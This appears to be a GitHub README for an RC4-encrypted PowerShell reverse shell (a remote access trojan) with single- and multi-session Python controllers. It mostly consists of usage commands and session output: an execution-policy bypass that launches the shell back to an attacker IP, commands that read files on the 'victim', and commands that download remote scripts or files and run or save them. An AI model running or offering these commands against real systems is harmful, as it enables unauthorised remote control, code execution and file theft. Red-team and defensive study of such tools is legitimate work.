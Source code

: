 # RC4-PowerShell-RAT
Simple powershell reverse shell using RC4 encryption for all the commands and payloads. PsShellClient.py only accept one client at the time. MultiPsShellClient.py accept several clients at the time.

The RAT will also save all the commands and output received in a log file.

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```
```
$ python PsShellClient.py
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


Usage: PsShellClient.py ip port key

$ python PsShellClient.py 0.0.0.0 1111 test
```

```
$ python MultiPsShellClient.py 127.0.0.1 8888 test 20

PS-RemoteShell Python Client v1.1
Mr.Un1k0d3r RingZer0 Team


Help
------
list            List all sessions
interact id     Interact with a session (Example: interact 1)
background      Return to the main console

[*] Waiting for a connection...


(Main Console)>>> [+] *** NEW Callback from 127.0.0.1:49416. Session ID:15

(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
(192.168.238.1:RINGZER0\mrun1k0d3r):Command >whoami
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Url >background
(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Command >...
```

# Example
```
powershell -exec bypass Import-Module .\PS-RemoteShell.ps1; PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```

```
(10.0.0.153:RINGZER0\mrun1k0d3r):Command >help

Supported commands:
------------------------------

        read    [path]          Show the content of the specified file
        remote  [url cmd]       Remotely download powershell script and execute a command
        upload  [url path]      Download a remote file and save it to the victim disk
        help                    Show this help
        
(10.0.0.153:RINGZER0\mrun1k0d3r):Command >read C:\windows\win.ini
[*] ReadFile: Reading C:\windows\win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
...
[*] ReadFile: execution Completed

(10.0.0.153:RINGZER0\mrun1k0d3r):Command >upload https://home.ringzer0team.com/ps.php C:\windows\temp\ps.txt
[*] DownloadToDisk: Fetching https://home.ringzer0team.com/ps.php
[*] DownloadToDisk: execution Completed



```

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
